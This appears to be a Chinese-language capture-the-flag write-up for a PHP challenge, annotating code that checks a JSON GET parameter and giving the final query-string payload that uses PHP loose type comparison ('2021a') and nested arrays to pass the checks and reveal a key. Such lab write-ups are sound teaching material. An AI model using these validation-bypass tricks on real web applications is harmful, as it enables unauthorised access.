 题目给出代码如下
```php
代码分析：
<?php
$v1 = 0;  
$v2 = 0;
//使用get方法传递一个w的参数，这个参数的内容是一个json格式的数组
$a = (array)json_decode(@$_GET['w']); #json特征是自定义键值使用{}，自定义值使用[]
if (is_array($a)) {
    is_numeric(@$a[\"bar1\"]) ? die(\"nope\") : NULL; #is_numeric判断bar1是否是数字，是就退出 ，不是就什么都不做
\tif (@$a[\"bar1\"]) {
        ($a[\"bar1\"] > 2020) ? $v1 = 1 : NULL; //bar1这个元素要大于2020，才会输出v1=1
    }
    if (is_array(@$a[\"bar2\"])) #is_array判断bar2是否是数组
\t{
        if (count($a[\"bar2\"]) != 5 or !is_array($a[\"bar2\"][0])) #判断如果bar2数组中元素的个数不等于5或者bar2数组中的第0个元素不是数组，退出循环
\t\t{
            die(\"nope\");
        }
        $pos = array_search(\"cisp-pte\", $a[\"bar3\"]); # 在bar3中使用array_search在数组中去寻找元素\"cisp-pte\"
        $pos === false ? die(\"nope\") : NULL;   # 找不到，退出循环
        foreach ($a[\"bar2\"] as $key => $val) # foreach对数组中的数据进行遍历
        {
            $val == \"cisp-pte\" ? die(\"nope\") : NULL;  #在bar2中如果出现了cisp-pte,则退出循环
        }
        $v2 = 1;
    }
}
#v1与v2都为真时，输出key
if ($v1 && $v2)  
 {
    include \"key.php\";
    echo $key;
}
highlight_file(__file__);
```
通过GET请求获取一个w(数组)并赋值给a
`is_numeric`绕过：php中当一个其他数据类型和数值类型的数据比较大小时，会先将其他数据类型转换成数值类型。所以用数字+字符串即可绕过

最终payload：`vul.php?w={\"bar1\":\"2021a\",\"bar2\":[[0],1,2,3,4],\"bar3\":[\"cisp-pte\"]}`
![upload successful](/images/pasted-855.png)

